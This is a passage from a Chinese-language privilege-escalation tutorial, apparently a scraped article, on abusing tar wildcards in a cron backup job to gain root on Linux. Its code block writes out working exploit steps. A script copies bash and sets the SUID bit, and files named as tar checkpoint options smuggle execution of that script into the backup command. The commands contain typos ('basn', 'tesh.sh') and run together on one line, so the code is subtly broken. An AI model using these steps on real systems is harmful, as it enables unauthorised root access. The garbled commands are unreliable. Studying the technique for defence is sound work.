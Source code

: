 ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawZ8maut87bsDnn0QWlVJROCC5xicbFyaxYUvPjvF4ibSjricwfAianhtCLw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



攻击者可以在用户目录下创建一个同名文件





\#第二种:命令问题(一般是本地提权)

利用通配符配合命令参数自定义命令实现提权

不安全定时任务备份命令

- 
- 
- 
- 
- 
- 
- 
- 

```
cd /home/undead/script; tar czf /tmp/backup.tar.gz *echo 'cp /bin/basn /tmp/bash;chmod +s /tmp/bash' >/home/undead/script/test.shecho " " > "--checkpoint-action=exec=sh tesh.sh"echo " " >--checkpoint=1

参考:https://www.cnblogs.com/manong--/p/8012324.html
```



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawNdSh3OZdlKLs2xSHIqhaSseBGHc198EicrUELPGkOcHQFSVV7hmVhRg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



将这两个文件放到要打包的目录下

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawe7WIib46GagawZ5tG58xtxtDlmTboIaZmfecd71Lic8FYvVrbIfWS3TQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawCb00Pf4eibEJgx4Y1ZDuwUL3xwCQse9YJXFjJgRsCibNHwQsCdibjTsYQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawl7DdSLMgkfuAge7rTbghdVDXicoBw9OUick9ZMUL7NmJU0ibwpQxlaVbw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



cd /home/undead/script; tar czf /tmp/backup.tar.gz * 命令的*会接受文件名,就变成了

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawRiaaA8wkfZh10Bibl552X2hjkQjTXHBrlwKKwRU2OwC8pwibl2PNAPrxA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

执行了test.sh

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawFLBj7rRVdiaa9icSCP6Jok3oxyHqic3qibpLr5J2nPIoyOhqfp8kYbKIpA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



suid提权,执行bash就有了root权限
